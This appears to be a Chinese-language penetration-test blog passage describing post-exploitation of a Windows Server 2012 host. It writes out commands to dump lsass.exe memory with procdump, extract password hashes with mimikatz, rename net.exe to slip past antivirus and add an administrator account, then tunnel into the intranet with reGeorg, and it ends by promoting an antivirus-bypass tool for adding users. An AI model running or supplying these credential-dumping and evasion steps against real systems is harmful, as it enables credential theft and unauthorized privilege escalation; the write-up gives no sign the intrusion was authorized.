 ![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvspRlHDV4RU4yGMqvXibHXgrJF3UZrsaw1JAojefe5ALMjLmyGH82oeA/640?wx_fmt=png)

nm 玩鸡毛，system 都 kill 不掉？

再试试另一种方法，直接 mimimakatz 读取 administrator 的密码

但是这里是 server2012 尝试使用 procdump 来导出目标主机的 lsass.dmp 到本机用 mimikatz 读取密码

#### **1. 导出 lsass.exe**

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

#### **2. 执行 mimikatz**

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

（前提需要管理员权限）

读出了 hash，因为是 WinServer2012 默认配置，因此 mimikatz 读不出明文密码

![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvaR8Vh0SMsbvTCVrHAoUnuOl9AeBNmuau2JicW2MdHKlaJpr746ENqQw/640?wx_fmt=png)

HTLM Hash 解密不出来 还尝试了很多姿势，都没有成功，只能求助大佬了

![](https://mmbiz.qpic.cn/mmbiz_jpg/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvImHxibdNUEzz3vCYdHeO8xibJCFZibaS99gicJJr483BUL1MI2btojURBw/640?wx_fmt=jpeg)

啥话不说直接开干

copy C:\Windows\System32\net.exe /net1.exe

![](https://mmbiz.qpic.cn/mmbiz_png/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvewYKhGXQyUxdjVasicTuX9hK8YzlPFOplALtGeOpabUicV1gSFbeyA9w/640?wx_fmt=png)

成功绕过并添加到了管理员组，由于是内网我们直接上 Proxifier+reGeorg

相关使用方法可以参考：

https://www.freebuf.com/column/206524.html 进行了解

![](https://mmbiz.qpic.cn/mmbiz_jpg/icCrVqOOyib0zo7HCEk6nYhw1MvdXHribSvIoOibtDCfG5W9Vs6B1riaEkGjcaymy30Hia05FzKXjJJOegdVFPVI9ianw/640?wx_fmt=jpeg)

任务完成 打扫战场 收工

**总结：**

安装相关浏览器插件会很方便的进行信息收集

遇到问题不要一股脑的问别人，先想办法自己解决

多收集一些好用的工具、网站等，用的时候直接就能甩过来

多总结自己的经验和收获，这样你才能在实战中快速上手

  

福利：

经过安全研究者研究发现——通过调用 Windows Api 可以实现 Bypass 杀软实现用户添加，本文特为各位观众老爷带来了绕过杀软添加用户的神器，操作简单，全程杀软无提示~
